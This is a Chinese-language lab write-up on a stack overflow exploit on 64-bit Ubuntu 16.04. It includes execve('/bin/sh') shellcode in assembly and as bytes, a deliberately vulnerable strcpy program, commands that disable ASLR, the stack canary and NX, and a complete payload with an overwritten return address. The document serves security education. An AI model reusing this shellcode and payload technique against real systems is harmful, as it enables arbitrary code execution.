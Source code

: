 # stack overflow

## 实验目的

* 理解掌握`C` 栈帧结构
* `Shellcode` 构造
* 加深理解栈溢出攻击原理及防护措施

## 实验要求

* 在关闭安全机制下,在Linux系统平台上实现缓冲区溢出攻击
* 开启安全保护机制,运行一样的溢出攻击代码,比较实现现象

## 实验展示

1. 实验原理

​ `C` 栈帧结构如下：

![&#x533A;\_02](.gitbook/assets/xuan-qu-025.png)

​ 因此当当前帧的局部变量和临时变量超出区域，覆盖了`ebp` 和返回地址时，就实现了栈溢出攻击。再通过精心设计返回地址，使其为`Shellcode` 的起始地址，就完成了运行流的劫持。

1. 实验平台

​ 实验基于 64位 `Ubuntu \ 16.04` 操作系统版本以及 `gcc,gdb` 版本信息如下：

```text
Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

gcc (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
```

1. `Shellcode`  代码

​ `Shellcode` 是一段攻击者精心设计的恶意代码，通常要求与位置无关，且本实验中利用 `strcpy()` 函数，因此`Shellcode` 代码中不能出现 `\x00` ，会被当作`\0`从而结束拷贝。

​ 编写`Shellcode` ，该`shellcode` 调用`execve("/bin/sh",NULL)` ，启动一个新的`shell`，验证其功能，参考: [https://www.exploit-db.com/exploits/36858/](https://www.exploit-db.com/exploits/36858/) ，编写汇编文件如下：

```text
.global _start
_start:
    # char *const argv[]
    xorl %esi, %esi

    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq `0x68732f2f6e69622f, %rbx

    # for '\x00'
    pushq %rsi
    pushq %rbx
    pushq %rsp

    # const char *filename
    popq %rdi

    # __NR_execve 59
    pushq `59
    popq %rax

    # char *const envp[]
    xorl %edx, %edx
    syscall
```

![&#x533A;\_02](.gitbook/assets/xuan-qu-028.png)

提取机器码：

![&#x533A;\_02](.gitbook/assets/xuan-qu-029.png)

1. 漏洞代码

```c
#include <stdio.h>
#include <string.h>
void overflow(char* str){
    char buf[30];
    strcpy(buf, str);
}
int main(){
    char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
                  "\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
    overflow(str);
    return 0;
}
```

​ 上面这段程序栈溢出漏洞触发点在`strcpy`函数, 函数没有做边界检查，可导致栈溢出覆盖返回地址。成功利用栈溢出需要确定覆盖多少个字节可以覆盖到返回地址。因此在`gdb`调试时确定`shellcode`的地址即`str`复制后`buf`的首地址，让返回地址指向该地址。

1. 实验结果

​ 实验前为了更简单的方式实现栈溢出，需要关闭一些保护措施。

* `ASLR` \(地址空间布局随机化\)

  关闭`ASLR`：`echo 0 |sudo tee /proc/sys/kernel/randomize_va_space`

* `Cannary`

  开启`Canary`之后，函数开始时在ebp和临时变量之间插入一个随机值，函数结束时验证这个值。如果不相等（也就是这个值被其他值覆盖了），就会调用 `_stackchk_fail`函数，终止进程。对应GCC编译选项`-fno-stack-protector`解除该保护。

* `NX` 开启`NX`保护之后，程序的堆栈将会不可执行。对应GCC编译选项`-z execstack`解除该保护。

编译调试：

![&#x533A;\_03](.gitbook/assets/xuan-qu-031.png)

​ 从调试结果可知，`buf` 的首地址为 `0x7fffffffdaa0` ，且查看内存该地址处确实为 `Shellcode` 起始代码。为了覆盖到返回地址，即填充字节至且包括8字节`rbp` \(`0x7fffffffdac0`\) ，则除了`shellcode`外还需要填充17字节。另外返回地址为`0x7fffffffdaa0`,改为小端模式`\xa0\xda\xff\xff\xff\x7f`。因此：

```c
char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
              "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
              "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61"
              "\xa0\xda\xff\xff\xff\x7f\x00\x00";
```

​ 重新编译，gdb调试运行：

![&#x533A;\_03](.gitbook/assets/xuan-qu-032.png)

成功运行。然而实际运行却是段错误，原因是gdb有自己的变量环境，变量的存放地址和程序实际运行会不一致，因此只需要把返回地址改为shellcode实际存放的地址即可，填充长度无须改变，因为相对偏移不变。

获取`shellcode` 实际地址，可以打印出`buf` 地址，也可以利用内核转储获取真实地址。首先启用内核转储 `ulimit -c unlimited` ，缺省情况下，内核在coredump时所产生的core文件放在与该程序相同的目录中，并且文件名固定为core。

![&#x533A;\_03](.gitbook/assets/xuan-qu-033.png)

因此修改`str` 尾部为`\x10\xdb\xff\xff\xff\x7f\x00\x00`。重新编译运行：

![&#x533A;\_03](.gitbook/assets/xuan-qu-034.png)

若启用保护措施，正常编译：

![&#x533A;\_03](.gitbook/assets/xuan-qu-035.png)

